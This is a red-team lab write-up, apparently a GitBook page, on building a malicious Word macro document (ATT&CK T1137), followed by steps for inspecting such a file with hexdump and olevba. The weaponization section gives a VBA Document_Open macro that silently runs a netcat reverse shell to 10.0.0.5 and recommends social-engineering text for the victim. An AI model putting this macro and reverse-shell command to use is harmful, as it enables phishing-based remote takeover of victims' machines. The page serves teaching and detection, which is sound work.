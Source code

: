 ```yaml
---
description: Code execution
---
```


# T1137: Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code-tabs %}
{% code-tabs-item title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="C:\\tools\\shell.cmd" %}
```bash
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

This is how it should look roughly:

![](../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../.gitbook/assets/macros-body%20%281%29.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../.gitbook/assets/macros-filename.png)

## Execution

Victim launching the Doc3.dotm:

![](../.gitbook/assets/macro-victim.png)

...and enabling the content - which gives the attacker a reverse shell:

![](../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry and what happened after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a ZIP and Strings utility or any type of Hex Editor to hand. 

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file can be renamed to **Doc3.zip** and simply unzipped like a regular archive. Doing so deflates the archive and reveals the files that make up the suspicious office file. Files include `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros:

![](../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-offico-macros.md#weaponization) section:

![](../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through. This can sometimes give enough to determine if the document is suspicious. 

I ran `hexdump -C vbaProject.bin` which clearly revealed some fragmented keywords that should immediately raise your suspicion - keywords included: **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../.gitbook/assets/macros-olevba.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1137\",\"type\":\"link\",\"title\":\"Office Application Startup - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

